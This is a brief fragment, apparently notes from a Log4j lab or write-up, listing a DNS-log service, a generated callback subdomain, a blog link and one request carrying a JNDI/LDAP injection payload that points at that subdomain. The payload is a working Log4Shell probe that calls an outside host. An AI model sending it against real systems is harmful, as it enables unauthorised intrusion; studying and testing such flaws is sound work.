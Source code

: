 http://dnslog.cn/

http://qk8ui0.dnslog.cn/


https://blog.csdn.net/Myon5/article/details/136548391

/hello?payload=${jndi:ldap://qk8ui0.dnslog.cn}